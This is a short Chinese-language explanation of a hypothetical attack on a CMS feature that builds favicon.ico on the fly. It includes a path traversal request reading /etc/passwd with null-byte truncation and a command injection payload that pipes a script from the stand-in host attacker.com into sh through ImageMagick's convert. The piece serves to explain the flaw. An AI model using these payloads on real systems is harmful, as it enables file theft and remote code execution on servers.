 动态生成 Favicon 的参数注入 + 路径遍历

假设场景:

某流行 CMS（如 WordPress 插件或自定义框架）提供动态生成 favicon.ico 的功能，允许用户通过参数自定义图标（如颜色、文字），但未对输入参数进行严格过滤



漏洞利用链
参数注入导致路径遍历
GET /favicon.ico?color=red&text=../../../../etc/passwd%0
若后端拼接参数时直接构造文件路径（如从 /static/icons/<text>.png 读取），攻击者可能通过 ../ 跳转目录，结合 %00 截断绕过扩展名限制，读取敏感文件


动态命令执行
若服务端使用命令行工具生成图标（如 ImageMagick 的 convert），未过滤参数可能导致 命令注入：

GET /favicon.ico?size=100x100;curl${IFS}attacker.com/shell.sh|sh;
服务端代码可能拼接如下命令：
convert -size {size} xc:white favicon.ico
注入的 size 参数可触发远程代码执行（RCE）
